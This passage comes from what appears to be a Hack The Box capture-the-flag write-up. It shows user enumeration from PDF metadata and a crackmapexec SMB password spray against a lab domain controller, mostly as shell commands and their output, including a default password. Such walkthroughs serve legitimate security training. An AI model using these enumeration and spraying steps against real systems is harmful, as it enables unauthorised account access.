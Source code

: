 First, I pulled down the metadata of each file to find its creator and create a list of potential Active Directory users.
```shell
┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ for i in 202*; do pdfinfo $i | grep 'Creator' | awk -F' ' '{print $(NF)}'; done >> users.lst

┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ cat users.lst
William.Lee
Scott.Scott
...
```
Second, I manually inspected each file to see if the document itself contained any useful information. One of the files contained the default password used to set up accounts.

![PDF with default password](web2.png)

Armed with a listing of potential users and a default password, I performed a password spray attack and found that the credentials were valid for the `Tiffany.Molina` user.
```shell
┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ crackmapexec smb -u users.lst -p NewIntelligenceCorpUser9876 -d intelligence.htb 10.10.10.248
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
...
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```